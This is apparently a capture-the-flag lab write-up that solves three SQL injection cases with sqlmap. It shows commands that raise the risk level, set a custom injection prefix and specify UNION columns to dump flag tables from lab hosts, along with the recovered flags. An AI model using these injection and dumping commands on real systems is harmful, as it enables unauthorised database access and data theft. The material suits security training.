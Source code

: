 ## Challenge 1

What's the contents of table flag5? (Case #5)

## Solution 1

On the page, I clicked hte Case5, and there was a link to click with the description to detect and exploit the vulnerability in GET parameter id.

That send me to the following link: `http://83.136.255.180:53163/case5.php?id=1`.

I started the SQLmap with the following command:

```sh
python3 sqlmap.py "http://83.136.255.180:53163/case5.php?id=1"
```

and this didn't produce any result, so since it needs `OR`, I will increase the risk level to 2.

```sh
python3 sqlmap.py "http://83.136.255.180:53163/case5.php?id=1" --risk=2
```
This again didn't bring any result, so I will now set the risk to 3.

```sh
python3 sqlmap.py "http://83.136.255.180:53163/case5.php?id=1" --risk=3 --dump
```

and I got the flag, which is:

```sh
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{700_much_r15k_bu7_w0r7h_17} |
+----+---------------------------------+
```

## Challenge 2

What's the contents of table flag6? (Case #6)

## Solution 2

Here the description is `Detect and exploit SQLi vulnerability in GET parameter col having non-standard boundaries` meaning that we have to specify some boundaries to solve the lab.

I tried to increase the level to 4 and the risk to 3, which gave a part of the flag, but it threw errors and stopped.

Then I started to test some prefixes.

I added the ``)` as a prefix, which solved the lab.

```sh
python3 sqlmap.py "http://94.237.55.96:34129/case6.php?col=id" -p col -T flag6 -D testdb --prefix='`)' --dump -t 100
```

This gave the flag which is `HTB{v1nc3_mcm4h0n_15_4570n15h3d}`.

## Challenge 3

What's the contents of table flag7? (Case #7)

## Solution 3

The description is `Detect and exploit SQLi vulnerability in GET parameter id by usage of UNION query-based technique` which means that there is a possibility that to be succesful we need to count the number of columns, and proivde that.

When I click on the link `click here` on the web page, it showed a table with five columns, so I will try that.

```sh
python3 sqlmap.py "http://94.237.55.96:34129/case7.php?id=1" -union-cols=5 -p id -T flag7 -D testdb --dump -t 100
```

This gave the flag `HTB{un173_7h3_un173d}`.


